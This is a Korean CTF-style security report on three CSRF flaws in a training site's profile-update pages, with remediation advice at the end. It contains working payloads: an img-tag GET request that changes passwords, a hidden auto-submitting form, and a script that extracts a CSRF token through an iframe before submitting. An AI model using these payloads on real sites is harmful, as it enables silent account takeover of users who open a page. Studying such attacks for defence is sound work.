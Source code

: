# CSRF Report

## 개요

본 보고서는, 웹 애플리케이션 내 특정 기능에서 발견된 **Cross-Site Request Forgery (CSRF)** 취약점에 대한 분석을 목적으로 작성되었습니다.

총 **3건의 개별 CSRF 취약점이 발견**되었으며, 각각 다른 기능에서 발생하였습니다.

해당 취약점은 공격자가 피해자의 브라우저를 통해 의도하지 않은 요청을 전송하도록 유도함으로써, 설정 변경, 비밀번호 변경 등의 악의적인 행위가 발생할 수 있습니다.

또한 관리자 계정이 공격 대상일 경우 간접적인 권한 상승 효과도 발생할 수 있습니다.

---

## 요약

- 총 발견된 CSRF 취약점: 3건
- 주요 위험 행위:
  - 비밀번호 무단 변경
  - 관리자 기능 요청 유도 가능성
- 보안 취약 원인: 
  - **CSRF Token 미사용**: 일부 기능은 CSRF Token 없이 요청이 처리되어 외부 사이트에서 임의 요청을 전송할 수 있음
  - **Referer 검증 미비**: 요청의 출처에 대한 서버 측 검증이 없어 외부 출처에서도 내부 요청이 가능함
  - **CSRF Token 우회 가능**: 특정 기능은 CSRF Token을 사용하지만, 토큰이 HTML 내에 그대로 노출되어 있으며 `iframe`을 통해 추출 및 악용이 가능함

---

## 내용

### CSRF 1

- 문제 이름: **GET Admin 1**
- 취약점 위치: `http://ctf.segfaulthub.com:7575/csrf_1/mypage.php` (회원정보 수정 페이지)
- 취약점 유형: **GET 기반 CSRF**
- 취약점 심각도: **HIGH**

- 설명:
해당 기능은 사용자 정보를 변경하는 요청을 **HTTP GET 방식으로도 처리하고 있으며**, `CSRF Token`이나 `Referer` 검증 없이
파라미터만으로 사용자의 정보를 변경할 수 있어 외부 요청에 취약한 구조를 가짐.

![CSRF1 burp suite](./screenshots/csrf1_burp_suite.png)

- 공격자는 게시판 기능을 이용해 다음과 같이 **사회공학적 미끼 제목**과 함께 CSRF 공격용 이미지를 삽입함.

페이로드:
```html
<img src="http://ctf.segfaulthub.com:7575/csrf_1/mypage_update.php?id=&info=&pw=1234">
```

![CSRF1 post](./screenshots/csrf1_post.png)


- **공격용 게시글 목록 화면 (페이로드 노출 없음)**  
사용자는 일반 게시글처럼 보여 클릭 유도됨.

![CSRF1 list](./screenshots/csrf1_list.png)

- 관리자가 로그인된 상태로 해당 게시글을 조회할 경우,  
**삽입된 이미지 태그를 통해 자동으로 GET 요청이 전송되며, 사용자의 비밀번호가 공격자가 지정한 값으로 변경됨**.

---

### CSRF 2

- 문제 이름: **GET Admin 2**
- 취약점 위치: `http://ctf.segfaulthub.com:7575/csrf_2/mypage.php` (회원정보 수정 페이지)
- 취약점 유형: **POST 기반 CSRF**
- 취약점 심각도: **HIGH**

- 설명: 해당 기능은 POST 요청으로 사용자 정보를 변경하는 API를 제공하고 있으나, 서버는 `CSRF Token` 검증 또는 `Referer` 검증 없이 요청을 처리함.
이로 인해 공격자가 외부 HTML 문서 내에 자동으로 전송되는 `form`을 작성할 경우, 피해자의 세션을 이용한 비밀번호 변경이 가능함.

![CSRF2 burp suite](./screenshots/csrf2_burp_suite.png)

- 요청 파라미터 중 `id` 값을 빈 문자열(`""`)로 설정하더라도,  
서버는 이를 별도 검증 없이 **현재 로그인된 사용자 세션 기준으로 자동 대체 처리**하는 구조를 가지고 있음.


![CSRF2 post](./screenshots/csrf2_post.png)

페이로드:
```html
<iframe name="frame" sandbox="allow-forms allow-same-origin" style="display:none;"></iframe>

<form action="http://ctf.segfaulthub.com:7575/csrf_2/mypage_update.php" method="POST" target="frame">
  <input type="hidden" name="id">
  <input type="hidden" name="info" value="">
  <input type="hidden" name="pw" value="12345">
</form>

<script>
  document.forms[0].submit();
</script>
```

- 이로 인해 공격자는 사용자의 ID를 몰라도, 단순히 게시글을 열게 만드는 것만으로 **그 사용자의 비밀번호를 변경시킬 수 있으며**,
같은 게시글을 여러 사용자가 열 경우, 
**각각 자신의 계정 기준으로 비밀번호가 바뀌는 광범위한 피해가 발생할 수 있음.**

- 또한 공격자는 `<iframe>`에 `sandbox="allow-forms allow-same-origin"` 옵션을 설정함으로써,  
폼 전송은 허용하면서도 서버 응답 내 JavaScript(alert 등)를 실행하지 않도록 설정 함.

따라서 피해자는  
**회원 정보 수정에 성공하셨습니다!**와 같은 안내 알림이 나타나지 않아,  
**비밀번호가 변경되었음에도 공격 사실을 인지하지 못한 채 CSRF 공격에 노출됨.**

---

### CSRF 3

- 문제 이름: **GET Admin 3**
- 취약점 위치: `http://ctf.segfaulthub.com:7575/csrf_3/mypage.php` (회원정보 수정 페이지)
- 취약점 유형: **CSRF Token 우회**
- 취약점 심각도: **HIGH**

- 설명:  
해당 기능은 CSRF Token이 적용되어 있지만, `mypage.php` 페이지를 통해 토큰 값을 클라이언트에 노출시키는 구조이며, 서버는 전달된 토큰 값의 유효성만 검증한 뒤 사용자 정보를 수정함.

공격자는 이를 악용하여 다음과 같이 **토큰 값을 사전에 iframe을 통해 추출 후**, 해당 값을 포함한 POST 요청을 자동으로 생성하여 사용자의 정보(비밀번호 등)를 변경할 수 있음.


![CSRF3 burp suite](./screenshots/csrf3_burp_suite.png)

- 공격자는 다음과 같은 구조의 HTML을 게시글에 삽입하여, **사용자가 게시글을 열었을 때 자동으로 토큰 추출 → 정보 변경이 발생하도록 구성**함.

페이로드:
```html
<iframe src="http://ctf.segfaulthub.com:7575/csrf_3/mypage.php?user=user101" id="frame1" style="display:none"></iframe>
<iframe name="frame2" sandbox="allow-forms allow-same-origin" style="display:none"></iframe>
<form action="http://ctf.segfaulthub.com:7575/csrf_3/mypage_update.php" method="POST" target="frame2" style="display:none">
<input name="id" value="">
<input name="info" value="">
<input name="pw" value="123">
<input name="csrf_token" value="">
</form>

<script>
    window.onload = function () {
        const html_frame = document.getElementById("frame1").contentWindow.document;
        const token = html_frame.querySelector('input[name="csrf_token"]').value;
        document.querySelector('input[name="csrf_token"]').value = token;
        document.forms[0].submit();
    }
</script>
```

![CSRF3 post](./screenshots/csrf3_post.png)

- 공격자 페이지에는 시각적으로 아무 것도 표시되지 않으며,
`form`, `iframe` 모두 `display:none` 처리되어 사용자는 공격 사실을 인지할 수 없음.

> 클라이언트 측에서 CSRF Token이 노출되는 구조에서는, 공격자가 `iframe` 등을 이용해 이를 추출하고 자동 요청을 구성함으로써 **Token 기반 방어 로직 또한 우회할 수 있음.**

---

## 대응 방안

- CSRF 방지를 위해 다음과 같은 보안 조치가 필요함:

  - 모든 상태 변경 요청에는 CSRF Token을 포함하고, 해당 토큰을 서버 측에서 검증할 것
  - Referer 또는 Origin 헤더를 기반으로 요청 출처를 검증할 것
  - CSRF Token은 HTML 내에 직접 노출하지 않고, JavaScript 접근이 불가능한 httpOnly Cookie 또는 서버 렌더링 방식으로 처리할 것
  - 요청 메서드(GET → POST) 및 민감한 정보 변경 로직의 접근 제한 강화

- 특히 관리자 계정의 기능 접근 시, CSRF 취약점을 통해 권한 상승이 가능한 구조가 발견되었으므로  
**즉시 수정 및 보완 조치가 필요함**










